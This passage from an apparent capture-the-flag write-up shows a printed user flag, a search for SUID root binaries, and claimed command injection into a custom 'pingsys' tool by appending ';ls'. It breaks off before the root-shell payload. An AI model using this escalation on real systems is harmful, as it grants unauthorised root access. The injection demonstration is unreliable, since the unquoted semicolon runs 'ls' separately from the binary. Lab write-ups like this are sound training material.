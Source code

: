 user.txt: `f4d491f280de360cc49e26ca1587cbcc`

## Going root

Now we need to obtain the root flag. I tried to dump data from the database, but it was a rabbit hole. Then I used `find` command to find the files owned by root with SUID bit set, and a program looked unsual:

~~~
[jacob@jacobtheboss ~]$ find / -type f -user root -perm -u=s 2>/dev/null
/usr/bin/pingsys   <-----------------------
/usr/bin/fusermount
/usr/bin/gpasswd
/usr/bin/su
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh

[REDACTED]
~~~

I started playing around with it and it expects a parameter and as you can guess it is an IP to ping:

~~~
[jacob@jacobtheboss ~]$ /usr/bin/pingsys localhost
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.017 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.027 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.027 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.027 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3000ms
rtt min/avg/max/mdev = 0.017/0.024/0.027/0.006 ms
~~~

It basicly runs `ping -c 4 <IP>`. I tried to run commands by adding a semicolon at the end of it and it worked:

~~~
[jacob@jacobtheboss ~]$ /usr/bin/pingsys localhost;ls    <------
PING localhost (127.0.0.1) 56(84) bytes of data.
64 bytes from localhost (127.0.0.1): icmp_seq=1 ttl=64 time=0.016 ms
64 bytes from localhost (127.0.0.1): icmp_seq=2 ttl=64 time=0.026 ms
64 bytes from localhost (127.0.0.1): icmp_seq=3 ttl=64 time=0.028 ms
64 bytes from localhost (127.0.0.1): icmp_seq=4 ttl=64 time=0.025 ms

--- localhost ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 2999ms
rtt min/avg/max/mdev = 0.016/0.023/0.028/0.007 ms
user.txt     <--------------
~~~

It has SUID bit set, so we can run bash to switch to root, but if you want to get a root shell, you have to change the format a bit as shown bellow:
